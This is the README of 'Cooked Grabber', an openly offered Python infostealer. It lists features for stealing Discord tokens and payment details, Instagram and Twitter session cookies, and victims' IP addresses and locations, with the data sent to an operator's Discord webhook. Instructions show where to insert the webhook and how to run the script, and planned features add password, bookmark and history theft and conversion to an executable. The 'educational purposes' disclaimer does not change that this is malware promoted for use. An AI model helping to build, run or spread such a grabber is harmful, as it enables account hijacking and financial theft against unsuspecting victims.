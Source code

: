 ![Logo](https://imgur.com/lCyX6TX.png)

# Cooked Grabber

Discord , Twitter, Instagram cookies and token grabber

## Features

- Easy to use
- Alls navigators compatibility
- Steal discord token
- Steal discord payment informations
- Steal IP adress and location
- Steal Instagram connection cookies
- Steal Twitter connection cookies
- Can be converted to exe
## Requirements

- Windows OS only
- Python 3.x (unless it exe converted)
- Modules: `$ pip install -r requirements.txt` (unless it exe converted)

## Screenshots

![App Screenshot](https://imgur.com/btX4Sro.png)

![App Screenshot](https://imgur.com/Fax7uTB.png)

## How to use ?

There is 2 ways to run the script.

### 1. First way

You need to add your **webhook(s)** **link(s)** to the script from this line:
```py
main(['YOUR DISCORD WEBHOOK URL]) #line 252
```
*You can run the script normaly.*

### 2. Second way

You can also run the program by giving several arguments (the webhook(s) link(s)):
```console
py CookedGrabber.py YOUR WEBHOOK(s) URL(s)
```

## Coming soon features 
- More optimisations , kill lags
- Saved password stealer
- Bookmarks stealer
- History stealer
- More error bypass
## Disclaimer
- Only for educationnal puposes
- I decline any responsability in case of misuse of this code

## Author

- [@mouadessalim](https://github.com/mouadessalim)
- [@crashixx](https://github.com/crashixx)
